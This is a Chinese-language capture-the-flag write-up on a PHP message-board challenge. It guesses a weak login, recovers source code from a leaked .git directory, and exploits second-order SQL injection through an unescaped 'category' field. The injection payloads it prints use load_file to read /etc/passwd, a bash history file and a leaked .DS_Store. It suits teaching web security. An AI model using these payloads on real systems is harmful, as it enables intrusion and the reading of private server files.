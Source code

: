 ![[Pasted image 20230119140827.png|500]]

![[Pasted image 20230119140851.png|1000]]

尝试发帖时被要求登陆

![[Pasted image 20230119141013.png|500]]

一时竟没想到是猜密码

```
username: zhangwei
password: zhangwei666
```

![[Pasted image 20230119141928.png|1000]]

```
/comment.php?id=1
```

![[Pasted image 20230119142123.png|500]]

# 获取源码

扫描目录

![[Pasted image 20230119142301.png|1000]]

存在`git`泄露

![[Pasted image 20230119142408.png|1000]]

![[Pasted image 20230119142530.png|500]]

被骗了.jpg

然后发现一个功能更强大一点的`githacker`

```shell
githacker --url http://99171b24-38c9-4bf6-ae83-d4cecaa108ef.node4.buuoj.cn:81/.git/ --output-folder result --delay 0.1 --threads 1
```

```shell
git log --reflog
```

![[Pasted image 20230119144942.png|700]]

可以看出进行过版本回退

```shell
git reset --hard e5b2a
```

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
	    $category = mysql_fetch_array($result)['category'];
	    $content = addslashes($_POST['content']);
	    $sql = "insert into comment
	            set category = '$category',
	                content = '$content',
	                bo_id = '$bo_id'";
	    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

在`write`操作中，所有的`POST`参数都经过了`addslashes`的转义，而在`comment`操作中，`category`却没有进行`addslashes`转义，这就给二次注入创造了机会

# 文件读取

综合利用单行和多行注释使查询合法
```
title=ttt&content=ccc&category=',content=load_file('/etc/passwd')/*
```

这时发表评论内容

```
content=*/,#
```

注入的结果是这样

```sql
insert into comment
set category = '',content=load_file('/etc/passwd')/*',
    content = '*/,#',
    bo_id = '$bo_id'
```

![[Pasted image 20230119153110.png|700]]

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/var/lib/mysql:/bin/false
www:x:500:500:www:/home/www:/bin/bash
```

不寻常的一点是，用户`www`就像普通用户一样拥有`/home`下的家目录

而且通常非登录用户的登录`shell`都设为`nologin`以防止其登录，而`www`的登录`shell`却被设置为`bash`，此事必有蹊跷

![[Pasted image 20230119154202.png|700]]

读取`/home/www/.bash_history`

```shell
cd /tmp/
unzip html.zip
rm -f html.zip
cp -r html /var/www/
cd /var/www/html/
rm -f .DS_Store
service apache2 start
```

1. 在`/tmp`下解压了`html.zip`
2. 删除压缩包
3. 将解压出来的`html`文件夹递归复制到`/var/www`下
4. 删除`/var/www/html/.DS_Store`
5. 启动服务器

删了，但没完全删掉.jpg

读取`/tmp/html/.DS_Store`

对于二进制文件，采用十六进制编码输出

```sql
hex(load_file('/tmp/html/.DS_Store'))
```

```python
s = 'xxxxxx'

f = open('.DS_Store','w')

for i in range(len(s) // 2):
    ss = s[2 * i: 2 * i + 2]
    f.write(chr(int(ss, base=16)))
```

![[Pasted image 20230119164005.png|1000]]

读取`/tmp/html/flag_8946e1ff1ee3e40f.php`

![[Pasted image 20230119164349.png|1000]]

然后发现这个`flag`是假的QAQ

真正的`flag`在`/var/www/html/`下

![[Pasted image 20230119164540.png|1000]]

#Web #PHP #代码审计 #git泄露 #DS_Store泄露 #二次注入